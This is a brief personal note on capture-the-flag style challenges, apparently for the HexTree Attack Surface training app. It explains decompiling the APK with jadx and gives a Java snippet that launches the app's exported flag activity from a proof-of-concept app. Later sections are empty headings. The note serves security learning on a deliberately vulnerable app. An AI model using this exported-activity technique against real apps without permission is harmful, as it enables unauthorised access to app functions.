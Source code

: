 
2025-06-09 10:57

Source: #android 
# Activity  

Take the apk in jadx and check the android manifest to find activities related to flag
click on the flag activity and we see a call to success() function 
our goal is to reach the success() function in all of these challenges
#### 1 - basic exported activity

 note the package name and complete class name 

write this java code in your POC app
```java
public void onClick(View view) {  
    Intent intent = new Intent();  
    intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity");  
    startActivity(intent);  
}
```
#### 2 - intent w extras

#### 3 - Intent w data URI

#### 4 - State machine 



### References
https://www.youtube.com/watch?v=jnBmI1eD-og
https://itsfading.github.io/posts/HexTree-Attack-Surface-App-Solutions/